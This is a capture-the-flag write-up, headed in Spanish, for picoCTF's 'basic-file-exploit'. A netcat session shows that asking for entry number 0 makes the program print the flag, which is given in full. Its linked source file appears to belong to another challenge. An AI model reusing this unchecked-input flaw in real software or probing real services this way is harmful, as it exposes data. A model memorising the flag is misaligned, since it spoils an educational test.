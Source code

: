 # basic-file-exploit

## Objetivo

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!
Connect to the program with netcat:
\$ nc saturn.picoctf.net 65317

The program's source code with the flag redacted can be downloaded [file](https://artifacts.picoctf.net/c/287/SafeOpener.class)

## Solución

```bash
hone@unidad03:~/basic-file-exploit$ nc saturn.picoctf.net 65317
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
```


```bash
1
Please enter your data:
informacion
informacion
Please enter the length of your data:
11
```


```bash
11
Your entry number is: 1
Write successful, would you like to do anything else?
2
```


```bash
2
Please enter the entry number of your data:
1
1
informacion
Read successful, would you like to do anything else?
0
```

```bash
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
```

Bandera: *picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}*

## Referencias
